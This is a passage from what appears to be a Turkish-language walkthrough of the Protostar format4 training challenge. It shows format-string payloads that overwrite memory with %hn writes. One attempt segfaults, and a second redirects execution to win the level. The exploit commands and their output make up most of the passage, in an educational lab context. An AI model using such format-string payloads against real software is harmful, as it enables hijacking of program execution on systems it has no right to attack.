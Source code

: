 ```bash
user@protostar:/tmp$ echo $(python -c 'print "\x26\x97\x04\x08" + "\x24\x97\x04\x08" + "%2044d" + "%4$hn" + "%d" + "%5$hn" ') | /opt/protostar/bin/format4

user@protostar:/tmp$ dmesg | tail -1
[11906.772182] format4[1887]: segfault at 804080f ip 0804080f sp bffff49c error 4 in format4[8048000+1000]
```
Denemeler sonucu ilk parçayı tamamladık. burada deneme yanılma yolu ile ilerledim ancak isterseniz gdb ile bakıp hesaplayıp yapabilirsiniz. diğer tarafı da tamamlayalım.

```bash
user@protostar:/tmp$ echo $(python -c 'print "\x26\x97\x04\x08" + "\x24\x97\x04\x08" + "%2044d" + "%4$hn" + "%31919d" + "%5$hn" ') | /opt/protostar/bin/format4
.
.
 -1208122336
code execution redirected! you win
```
Ve diğer adresi de denk getirdik. Bu şekilde format serisini de tamamlamış olduk.

Faydalı Linkler :
1. https://www.tutorialspoint.com/format-specifiers-in-c
2. https://stackoverflow.com/questions/38942594/difference-between-single-and-double-quotes-in-printf-in-c
3. https://www.researchgate.net/figure/Stack-of-the-printf-function-call_fig2_237237332